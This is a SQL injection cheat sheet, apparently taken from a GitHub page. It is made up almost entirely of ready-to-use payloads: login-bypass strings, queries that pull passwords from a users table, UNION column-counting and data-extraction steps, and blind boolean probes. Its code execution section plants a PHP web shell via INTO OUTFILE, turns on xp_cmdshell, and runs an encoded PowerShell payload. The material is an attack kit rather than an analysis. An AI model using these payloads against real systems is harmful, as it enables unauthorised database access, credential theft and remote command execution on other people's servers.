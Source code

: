 #### Authentication Bypass

```
#Standard auth bypass will log in as the first user in the database table.
' OR 1=1 -- //

#Select all data from table users.
' OR 1=1 in (SELECT * FROM users) -- //

#Select all passwords from table users.
' or 1=1 in (SELECT password FROM users) -- //

#Select password from username admin. 
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```
#### Union Injection
1. Enter SQLi characters to try and get a server error indicating a potential vulnerability.
2. Enter a UNION SQLi payload to try and get the server to respond with an error indicating the columns selected is wrong.
3. Continue to add a NULL column to each payload until it is accepted by the server with no error response.

```
#Identify how many columns returned in query.
'UNION SELECT NULL-- //
'UNION SELECT NULL,NULL-- //
'UNION SELECT NULL,NULL,NULL-- //

#Identify which columns can return string data.
'UNION SELECT 'a',NULL,NULL,NULL-- //

#Extract data.
'UNION SELECT <column>, <column>, FROM table -- //
```
#### Code Execution

```
#Upload a shell.
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //

#Enable xp_cmdshell on sql server 2005
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

#Execute Commands
' EXEC xp_cmdshell 'powershell -E <base64_payload>'; --
' EXEC xp_cmdshell "net user";
```

##### Blind Boolean SQLi
```
1=1
1=2
1=1+AND+1=1
1=1+AND(1=1)AND+1=1
1=1+AND(1=2)AND+1=1
1=1+AND('1'='1')AND+1=1 - strings ok?
1=1+AND('1'+like+'%25')AND+1=1 - accepts wild card? (%25 = % encoded)
1=1+AND(CURRENT_USER+like+'%25')AND+1=1 - check reserved key words / columns 
1=1+AND(CURRENT_USER+like+'$intruder$%25')AND+1=1
```